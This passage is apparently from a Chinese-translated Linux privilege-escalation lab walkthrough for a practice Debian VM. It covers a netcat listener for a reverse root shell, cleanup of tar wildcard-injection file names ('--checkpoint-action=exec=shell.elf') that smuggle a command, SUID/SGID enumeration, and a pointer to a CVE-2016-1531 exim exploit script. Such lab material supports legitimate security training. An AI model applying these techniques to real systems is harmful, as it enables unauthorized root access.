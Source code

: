 **`nc -nvlp 4444`**

****记得退出根 shell 并删除您创建的所有文件，以防止 cron 作业再次执行:****

**`rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf`**

# **任务 11: SUID / SGID 可执行文件-已知漏洞**

**在 Debian 虚拟机上找到所有的 SUID/SGID 可执行文件:**

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

**![](img/48cb6f3c09d3be18da844f65b3fe90db.png)**

**请注意,/ usr/sbin/exim-4.84–3 出现在结果中。尝试查找此版本 exim 的已知漏洞。Exploit-DB、Google 和 GitHub 是搜索的好地方！**

**应该可以利用与此版本的 exim 完全匹配的本地权限提升漏洞。可以在 Debian VM 的/home/user/tools/suid/exim/CVE-2016–1531 . sh 上找到一份副本。**

**运行漏洞脚本以获得根外壳:**

**![](img/62681c2b73cce6608fdd9eb966c7c271.png)**
